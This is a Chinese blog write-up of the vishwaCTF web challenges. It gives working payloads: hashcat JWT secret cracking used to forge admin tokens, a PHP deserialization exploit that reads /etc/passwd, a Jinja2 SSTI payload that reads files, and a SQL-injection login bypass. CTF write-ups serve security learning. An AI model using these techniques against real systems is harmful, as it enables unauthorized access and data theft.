






<!--yml
category: 未分类
date: 2022-04-26 14:40:06
-->

# 【vishwaCTF】web题解wp_Sunlight_316的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_51614272/article/details/124128472](https://blog.csdn.net/weixin_51614272/article/details/124128472)

# web

## Keep Your Secrets（jwt典例）

> 一打开发现有两个页面，一个页面是注册，一个是admin管理员页面



> 注册完成之后会返回一段字符串，分析得到这是一段Token：



> 那么我们就可以利用这段Token伪造管理员请求去得到flag
> 打开jwt.io：要爆破的就是下面这个检验码
> 打开hashcat，设置掩码爆破或者暴力爆破，5分钟出来了：
> 或者rockyou.txt，很多密码，秒出结果
> 密钥是：owasp



> 最后POST请求提交作为请求头的Token即可，**要放在中间**，放在包最后会发生未知错误



> hashcat -a -0 代表字典攻击
> -m 16500 代表破解的是jwt
> hashcat的wiki：[hashcat_WiKi](https://hashcat.net/wiki/doku.php?id=hashcat) 和 [hashcat手册](https://www.redteaming.top/2019/02/13/Hashcat%E7%9A%84%E4%BD%BF%E7%94%A8%E6%89%8B%E5%86%8C%E6%80%BB%E7%BB%93/#%E7%AE%80%E4%BB%8B)
> –show代表直接把密钥显示出来

```
-a  指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
-m  指定要破解的hash类型，如果不指定类型，则默认是MD5
-o  指定破解成功后的hash及所对应的明文密码的存放位置,可以用它把破解成功的hash写到指定的文件中
--force	忽略破解过程中的警告信息,跑单条hash可能需要加上此选项
--show	显示已经破解的hash及该hash所对应的明文
--increment	 启用增量破解模式,你可以利用此模式让hashcat在指定的密码长度范围内执行破解过程
--increment-min  密码最小长度,后面直接等于一个整数即可,配置increment模式一起使用
--increment-max  密码最大长度,同上
--outfile-format 指定破解结果的输出格式id,默认是3
--username 	 忽略hash文件中的指定的用户名,在破解linux系统用户密码hash可能会用到
--remove 	 删除已被破解成功的hash
-r		 使用自定义破解规则 
```

## Todo list（php反序列化）

```
<?php
Class ShowSource{
    public function __toString()
    {
        return highlight_file($this->source, true);
    }
}

if(isset($_GET['source'])){
    $s = new ShowSource();
    $s->source = __FILE__;
    echo $s;
    exit;
}

$todos = [];

if(isset($_COOKIE['todos'])){
    $c = $_COOKIE['todos'];
    $h = substr($c, 0, 40);
    $m = substr($c, 40);
    if(sha1($m) === $h){
        $todos = unserialize($m);
    }
}

if(isset($_POST['text'])){
    $todo = $_POST['text'];
    $todos[] = $todo;
    $m = serialize($todos);
    $h = sha1($m);
    setcookie('todos', $h.$m);
    header('Location: '.$_SERVER['REQUEST_URI']);
    exit;
}

 foreach($todos as $todo):
      <label class="todo">
      <input class="todo__state" type="checkbox" />
      <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" viewBox="0 0 200 25" class="todo__icon">
        <use xlink:href="#todo__line" class="todo__line"></use>
        <use xlink:href="#todo__box" class="todo__box"></use>
        <use xlink:href="#todo__check" class="todo__check"></use>
        <use xlink:href="#todo__circle" class="todo__circle"></use>
      </svg>
      <div class="todo__text"><?=$todo?></div>
      </label>
    <?php endforeach; 
```

echo触发 __toString
exp:

```
<?php
Class ShowSource{
    public function __construct()
    {
        $this->source = '/etc/passwd'; 
    }
}
$todos[]=new ShowSource();
echo sha1(serialize($todos));
echo urlencode(serialize($todos)); 
```

## Hey Buddy!（SSTI）

payload：

```
{{().__class__.__bases__[0].__subclasses__()[99](path=%27%27,fullname=%27%27).get_data(%27./flag.txt%27)}} 
```

使用subclasses的第99个库，这个库里有os操作，就可以获取flag

## My Useless Website（SQL注入）

直接万能密码注释掉后面就可以了
payload：

```
https://my-us3l355-w3b51t3.vishwactf.com/?user=1%27%20or%201=1–+&pass=1 
```

`-+` 或者 `·--`就是注释符

## Stock Bot（信息检索）

出现了一段payload：
根据：if(!msg.includes(‘Flag’))
猜测product=Flag，得到flag


## Request Me FLAG（数据包请求方式）

以FLAG请求方式请求数据包，得到flag

## Strong Encryption（php代码审计）

```
<?php

    $flag="";

    function encrypt($str,$enKey){

        $strHex='';
        $Key='';
        $rKey=69;
        $tmpKey='';

        for($i=0;$i<strlen($enKey);$i++){
            $Key.=ord($enKey[$i])+$rKey;  
            $tmpKey.=chr(ord($enKey[$i])+$rKey); 
        }    

        $rKeyHex=dechex($rKey); 

        $enKeyHash = hash('sha256',$tmpKey);

        for ($i=0,$j=0; $i < strlen($str); $i++,$j++){
            if($j==strlen($Key)){
                $j=0;
            }
            $strHex .= dechex(ord($str[$i])+$Key[$j]);
        }
        $encTxt = $strHex.$rKeyHex.$enKeyHash;
        return $encTxt;
    }

    $encTxt = encrypt($flag, "VishwaCTF");

    echo $encTxt;

?> 
```

解密脚本：
原过程是每位的十进制加上key再转16进制，反推这个过程就可以得到flag

```
$str2 = "576e78697e65445c4a7c8033766770357c3960377460357360703a6f6982";
$Key='155174184173188166136153139';   
	for ($i=0,$j=0; $i < strlen($str2); $i++,$j++){
		if($j==strlen($Key)){
			$j=0;
        }
        $a = $str2[$i].$str2[$i+1];
        $flag .= chr(hexdec($a)-$Key[$j]);  
        $i++;
   }
echo "flag: ".$flag; 
```